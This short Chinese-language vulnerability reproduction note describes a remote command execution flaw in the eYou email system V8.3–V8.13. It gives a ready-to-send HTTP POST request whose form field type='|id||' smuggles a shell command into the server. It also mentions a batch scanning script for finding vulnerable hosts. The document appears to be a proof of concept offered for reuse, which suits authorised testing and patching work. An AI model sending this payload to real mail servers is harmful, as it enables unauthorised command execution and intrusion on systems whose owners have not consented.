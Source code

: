 # 0x00 软件介绍
北京亿中邮信息技术有限公司（亿邮）：提供邮件系统解决方案  
官网：http://www.eyou.net/index.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
漏洞影响的产品版本为亿邮电子邮件系统V8.3-V8.13的部分二次开发版本。  
亿邮电子邮件系统信创版本及V8.13以后版本不受影响。

# 0x04 漏洞复现
burp中发送如下请求
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: mail.xxx.com.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 12

type='|id||'
```
返回如下图  
![image](./pic/0.png)

# 0x05 批量脚本
EYouMailRCE-Batch-Detect.py，具体用法见：python EYouMailRCE-Batch-Detect.py -h

# 0x06 参考链接
https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg
